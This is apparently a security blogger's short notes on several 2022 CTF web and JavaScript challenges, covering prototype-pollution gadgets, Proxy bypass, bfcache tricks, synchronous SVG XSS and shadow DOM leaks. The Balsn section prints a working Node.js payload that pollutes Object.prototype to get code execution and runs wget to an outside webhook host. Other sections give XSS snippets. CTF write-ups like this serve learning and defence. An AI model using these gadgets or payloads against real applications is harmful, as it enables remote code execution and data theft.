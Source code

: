 ```yaml
---
title: Notes on Several CTF Challenges Related to Web and JS
catalog: true
date: 2022-12-08 20:10:44
tags: [Security]
categories: [Security]
photos: /img/ctf-js-notes/cover-en.png
---
```


Recently, there were several CTF challenges that were quite good, such as SECCON and HITCON, but unfortunately, I was traveling abroad at that time and was too lazy to write complete writeups after returning. Originally, I was even too lazy to take notes, but once time passed, it became difficult to find related information, so I decided to write a brief summary.

In addition, I will also briefly mention several challenges that I think I should have taken notes on before, but for some reason, I did not.

Keywords:

1. Node.js prototype pollution gadget to RCE (Balsn CTF 2022 - 2linenodejs)
2. Obtaining the original value of a JS proxy (corCTF 2022 - sbxcalc)
3. Cache of browser back behavior (SECCON CTF 2022 - spanote)
4. Using SVG to create synchronous XSS (HITCON CTF 2022)
5. Reading data from shadow DOM (HITCON CTF 2022)

<!-- more -->

## Balsn CTF 2022 - 2linenodejs

The code is very simple:

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

There is an obvious prototype pollution vulnerability, so the challenge is about how to achieve RCE after having prototype pollution in node.js.

Another key point is the `require('./usage')` inside the catch.

The last key point is this paper: [Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171), which mentions many cases of RCE from prototype pollution and provides gadgets or some hints.

However, one of the vulnerabilities in the paper has been fixed in the version used in this challenge: https://github.com/nodejs/node/blob/v18.8.0/lib/internal/modules/cjs/loader.js#L484

``` js
const { 1: name, 2: expansion = '' } =
    RegExpPrototypeExec(EXPORTS_PATTERN, request) || kEmptyObject;
```

kEmptyObject is `ObjectFreeze(ObjectCreate(null))`, so it cannot be polluted.

But anyway, if you continue to look for it in the file, you will find that the `trySelf` function has the same problem here: https://github.com/nodejs/node/blob/c200106305f4367ba9ad8987af5139979c6cc40c/lib/internal/modules/cjs/loader.js#L454

``` js
const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
```

The default value here also uses `{}`, so it can be interfered with through prototype pollution.

The following code will load `./pwn.js` instead of `./usage.js`:

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./pwn.js"
  },
  name: './usage.js'
}
Object.prototype["path"] = './'

require('./usage.js')
```

Therefore, through prototype pollution, any file can be required. The next task is to find a built-in file with a usable payload. My teammate found `/opt/yarn-v1.22.19/preinstall.js`, and the final payload looks like this:

```js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

Writeups by others:

1. https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs

### corCTF 2022 - sbxcalc

The core part of this challenge can be seen as follows:

``` js
var p = new Proxy({flag: window.flag || 'flag'}, {
  get: () => 'nope'
})
```

How can you get the flag blocked by the proxy?

The answer is `Object.getOwnPropertyDescriptor`.

`Object.getOwnPropertyDescriptor(p, 'flag')` can be used to obtain the original value instead of the value processed by the proxy.

Author's writeup: https://brycec.me/posts/corctf_2022_challenges#sbxcalc

### SECCON CTF 2022 Quals - spanote

There is a cache in Chrome called back/forward cache, abbreviated as bfcache, which I heard for the first time: http://web.dev/articles/bfcache

The second disk cache should be more familiar to everyone, and fetched resources will be stored in it.

Using this bfcache, interesting behaviors can be achieved.

Now there is an API like this:

``` js
fastify.get("/api/notes/:noteId", async (request, reply) => {
  const user = new User(request.session.userId);
  if (request.headers["x-token"] !== hash(user.id)) {
    throw new Error("Invalid token");
  }
  const noteId = validate(request.params.noteId);
  return user.sendNote(reply, noteId);
});
```

Although it is a GET, it will check the custom header, so it cannot be accessed directly by the browser.

But with the cache behavior just mentioned, you can:

1. Open `/api/notes/id` in the browser and an error message will appear.
2. Go to the homepage with the same tab. At this time, the homepage will use fetch with custom header to fetch `/api/notes/id`, and the browser will store the result in the disk cache.
3. Go back one page, and the screen will display the result of the disk cache.

You can use the browser to directly browse the cached response and bypass the restriction of the custom header.

For a more detailed writeup of the entire question, please see here: https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote

### HITCON CTF 2022

First, let's post the writeups for maple and splitline:

1. https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON%20CTF%202022
2. https://blog.splitline.tw/hitcon-ctf-2022/

This time I only looked at Self Destruct Message, and briefly talked about several points.

The first is when executing `element.innerHTML = str`, usually anything in HTML will be executed asynchronously, for example:

```js
element.innerHTML = '<img src=x onerror=console.log(1)>'
console.log(2)
```

It is definitely logging 2 first and then 1.

But if you write it like this:

```js
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

It will magically become 1 in front, and this div will even work without being placed in the DOM. The relevant discussion can be seen in this thread: https://twitter.com/terjanq/status/1421093136022048775

Next is to use the error stack to find the original location and get the flag id:

``` js
window.addEventListener('unhandledrejection', e => {
	console.log(e.reason.stack.match(/\/message\/(\w+)/)[1]);
});
```

And this question also has other solutions. Although the element is placed in the shadow DOM, the flag can be stolen through some xsleak. The more complete research is here: [The Closed Shadow DOM](https://blog.ankursundara.com/shadow-dom/)

Similar questions have appeared in DiceCTF 2022, and I have written a post about my experience, but I didn't start tagging keywords at that time: https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/
